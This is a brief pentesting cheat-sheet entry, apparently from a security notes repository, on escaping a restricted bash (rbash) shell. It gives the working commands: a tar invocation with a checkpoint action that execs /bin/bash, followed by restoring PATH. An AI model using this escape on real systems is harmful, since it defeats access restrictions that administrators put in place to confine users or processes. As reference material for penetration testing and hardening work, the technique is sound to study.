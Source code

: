 ```yaml
---
title: "rbash"
date: 2025-7-25
tags: ["Rbash", "Shell", "Escape", "Tar", "Bypass", "Breakout", "Restricted Shell"]
---
```


### Abuse #1: tar to rbash Escape

```console
# Before enter rbash
echo $PATH
```

```console
# Enter rbash
su <USER> -
```

```console
# rbash escape using tar
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```console
# Paste the above $PATH (e.g.)
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
